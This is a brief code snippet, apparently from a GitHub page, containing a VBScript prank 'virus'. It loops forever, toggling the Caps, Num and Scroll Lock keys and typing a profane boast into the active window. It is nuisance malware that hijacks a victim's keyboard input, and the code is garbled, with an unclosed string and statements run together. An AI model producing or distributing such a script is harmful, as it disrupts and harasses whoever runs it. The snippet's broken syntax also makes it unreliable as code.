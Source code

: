 # zc
set x=wscript.createobject ("wscript.shell") do wscript.sleep 100 x.sendkeys "{capslock}" x.sendkeys "{numlock}" x.sendkeys "I'm am a fucking virus hahahahahhaahhha x.sendkeys "{Scrolllock}" loop
